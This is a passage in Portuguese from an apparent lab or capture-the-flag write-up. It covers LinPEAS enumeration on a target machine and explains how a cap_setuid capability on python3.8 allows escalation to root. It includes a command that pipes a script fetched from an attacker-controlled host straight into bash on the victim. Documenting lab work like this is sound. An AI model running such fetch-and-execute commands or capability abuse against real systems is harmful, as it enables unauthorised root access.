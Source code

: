 ## 5. Enumeração local e busca por vetores de escalada

Para identificar oportunidades de escalada de privilégio, foi executada uma ferramenta de enumeração (LinPEAS) na máquina alvo. O fluxo usado foi:

1. Subir um servidor HTTP local para servir o script `linpeas.sh`:

`python3 -m http.server 8000`

**O que faz:** serve o diretório atual (linpeass) via HTTP na porta 8000; facilita download do script direto da máquina alvo.

2. Na máquina vítima, baixar e executar o script:

`curl http://<host-ip>/linpeas.sh | bash`

**O que faz:** obtém o script e executa a enumeração automatizada (linpeas busca configurações inseguras, binários SUID/capabilities, serviços, credenciais locais e muito mais).

**Evidência (print LinPEAS):**

<p align="center"> <img src="./assets/saida_linpeass.png" alt="Saida Linpeass" width="800"/> </p> <p align="center"><em>Figura 3 — Evidência LinPEAS</em></p>

Na saída foi identificado um achado crítico listado como:

`/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip`

- `/usr/bin/python3.8` → arquivo binário (Python 3.8).
    
- `cap_setuid,cap_net_bind_service` → _capabilities_ atribuídas ao arquivo:
    
    - `cap_setuid` : permite ao processo alterar UIDs (chamadas `setuid`/`setresuid`) sem precisar ser root.
        
    - `cap_net_bind_service` : permite ligar sockets em portas privilegiadas (<1024) sem root.
        
- `+eip` → flags das capabilities quando o binário é executado:
    
    - `e` = **effective** (efetiva),
        
    - `i` = **inheritable** (herdável),
        
    - `p` = **permitted** (permitida).  
        `+eip` significa que as capabilities estão nas três máscaras (permitidas, herdáveis e efetivas) ao executar o binário.

Signifcado: Ao executar o /usr/bin/python3.8, o processo recebe essas permissões e com isso é possivel escalar o privilégio para o ROOT utilizando `setuid(0)`

---
## 6. Exploração
